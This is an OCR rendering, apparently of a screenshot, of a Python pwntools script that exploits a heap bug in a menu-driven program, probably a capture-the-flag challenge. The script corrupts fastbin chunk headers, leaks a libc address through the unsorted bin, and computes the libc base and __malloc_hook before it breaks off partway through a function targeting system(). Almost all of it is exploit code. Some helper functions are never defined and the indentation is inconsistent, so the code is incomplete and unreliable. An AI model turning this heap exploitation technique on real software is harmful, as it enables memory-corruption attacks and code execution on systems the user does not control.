 ```python

def free(num):
	p.sendline('3')
	p.sendline(str(num))

def dump(num):
	
	p.sendline('4')
	p.sendline(str(num))
	x=p.recvuntil('Content: \n')
	
	return p.recv()




def fast():
       
	alloc(0x10) #0
	alloc(0x10) #1
	alloc(0x10) #2
	alloc(0x10) #3
	alloc(0x80) #4
        
	free(1)
	free(2)
	
	pay=0x10*'a'
	pay+=p64(0)+p64(0x21)
	pay+=p64(0x88)+p64(0x88)
        pay+=p64(0)+p64(0x21) 
        pay+=p8(0x80)
	fill('0',pay)
	
	pay='a'*0x10
	pay+=p64(0)+p64(0x21)
	fill('3',pay)

	alloc(0x10) #1
	alloc(0x10) #2
	fill(1,'aaaa')
	fill(2,'bbbb')
	#free(1)
	#free(2)

	#gdb.attach(p)

def leak():
	global base,malloc_hook
	pay=p64(0)*3+p64(0x91)
	fill('3',pay)
	alloc(0x80) #5
	free(4)
	
	addr=u64(dump(2)[:8])
	print(addr)
	base=addr-0x3c4b78
	malloc_hook=base+0x3c4b10
	log.info("libc_base: "+hex(base))
	log.info("malloc_hook:"+hex(malloc_hook))	
 	
def pwn():
	system=base+0x453a0
```